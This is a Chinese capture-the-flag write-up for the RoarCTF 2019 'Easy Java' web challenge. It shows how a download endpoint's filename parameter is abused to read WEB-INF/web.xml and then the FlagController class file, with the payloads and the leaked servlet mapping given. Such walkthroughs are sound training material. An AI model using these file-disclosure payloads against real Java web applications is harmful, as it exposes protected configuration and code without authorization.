

# RoarCTF 2019

## Web

### Easy Java

这是一道关于 Java WEB 的题目，通过点击 Help 按钮跳转到 `/Download?filename=help.docx` 会回显 `java.io.FileNotFoundException:{help.docx}`

#### **WEB-INF**

WEB-INF 是 Java 的 web 应用的安全目录，属于敏感目录，目录结构（模拟）如下图

<figure><figcaption></figcaption></figure>

因此可以尝试 payload `filename=WEB-INF/web.xml` ，发现无法得到内容，尝试使用 POST 进行传入，可以得到以下内容

<figure><figcaption></figcaption></figure>

```xml
   <servlet>
        <servlet-name>FlagController</servlet-name>
        <servlet-class>com.wm.ctf.FlagController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>FlagController</servlet-name>
        <url-pattern>/Flag</url-pattern>
    </servlet-mapping>
```

通过使用 `/WEB-INF/classes/` 来找 flag 即可，构造 payload `filename=/WEB-INF/classes/com/wm/ctf/FlagController.class` 就可以得到 flag 了

<figure><figcaption></figcaption></figure>
